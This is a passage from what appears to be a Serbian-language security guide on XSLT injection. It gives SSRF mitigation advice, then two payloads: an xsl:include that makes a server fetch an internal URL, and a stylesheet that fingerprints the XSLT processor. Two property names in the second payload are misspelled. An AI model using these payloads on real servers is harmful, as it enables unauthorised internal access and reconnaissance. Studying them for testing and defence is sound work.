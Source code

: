 Da bi se zaštitili od SSRF ranjivosti, preporučuje se sledeće:

* Validacija korisničkog unosa kako bi se sprečilo korišćenje nevažećih URL-ova.
* Ograničavanje pristupa servera na samo one resurse koji su neophodni za rad aplikacije.
* Korišćenje belih lista (whitelisting) umesto crnih lista (blacklisting) prilikom konfigurisanja dozvoljenih URL-ova.
* Redovno ažuriranje softvera i primena sigurnosnih zakrpa kako bi se sprečile poznate ranjivosti koje mogu biti iskorišćene za SSRF napade.

Ukratko, SSRF je ozbiljna ranjivost koja može omogućiti napadaču da izvrši zahteve sa servera na druge resurse. Implementacija odgovarajućih sigurnosnih mera može pomoći u sprečavanju ovog tipa napada.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

### Verzije

Može biti više ili manje funkcija u zavisnosti od verzije XSLT-a koja se koristi:

* [https://www.w3.org/TR/xslt-10/](https://www.w3.org/TR/xslt-10/)
* [https://www.w3.org/TR/xslt20/](https://www.w3.org/TR/xslt20/)
* [https://www.w3.org/TR/xslt-30/](https://www.w3.org/TR/xslt-30/)

## Fingerprint

Otpremi ovo i preuzmi informacije

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
Version: <xsl:value-of select="system-property('xsl:version')" /><br />
Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
<xsl:if test="system-property('xsl:product-name')">
Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:product-version')">
Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:is-schema-aware')">
Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:supports-serialization')">
Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
</xsl:if>
<xsl:if test="system-property('xsl:supports-backwards-compatibility')">
Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
</xsl:if>
</xsl:template>
</xsl:stylesheet>
```
